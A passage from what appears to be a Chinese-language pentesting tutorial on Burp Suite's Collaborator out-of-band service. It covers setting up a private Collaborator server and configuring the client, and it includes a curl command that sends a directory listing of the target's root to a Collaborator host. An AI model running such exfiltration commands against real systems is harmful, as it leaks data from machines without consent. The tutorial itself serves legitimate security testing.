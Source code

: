 	有没有觉得明文携带这些信息太不安全了？可是使用https安全传送，例如：

```bash
curl https://p1rf8orun99jx1pa9ayqx55quh07ow.burpcollaborator.net -d "`ls -al /`"
```

	最后的结果和使用http一样。burp的dnslog功能也是相当全的。

## 0x02 私有的Collaborator server

	上面举例的是使用burp的公共Collaborator server，有时我们需要使用私有的Collaborator server。使用公共的Collaborator server，但是，信息存储在别人的服务器上是没有保密性可言的。还有一种情况，就是需要渗透的目标在内网且不与外网互通的情况下，就得使用私有的Collaborator server。
	
	下面我们来看看如何搭建私有的Collaborator server。burp提供了搭建Collaborator server的功能，在服务器上执行`sudo java -jar burp.jar --collaborator-server` 即带`--collaborator-server`参数运行burp即可启动服务。
	
	然后在客户端配置，以此打开`Project options`→`Misc`→`Burp Collaborator server` ，选择`Use a private Collaborator server` ，在`Server location`中设置服务器域名，没有域名的情况下可以使用IP，如果按IP地址指定服务器，则无法使用依赖于DNS解析的Burp与Collaborator相关的功能。 另外，默认情况下，Burp通过HTTPS轮询Collaborator服务器，并强制实施SSL信任以防止中间人攻击。如果您的Burp实例由于网络或其他限制而无法通过HTTPS直接轮询，您可以选择轮询未加密的HTTP。由于没有配置ssl证书，所以此处勾选`Poll over unencrypted HTTP`即使用未加密的http轮询。详情如下图：

![1536415372083](Untitled.assets/1536415372083.png)
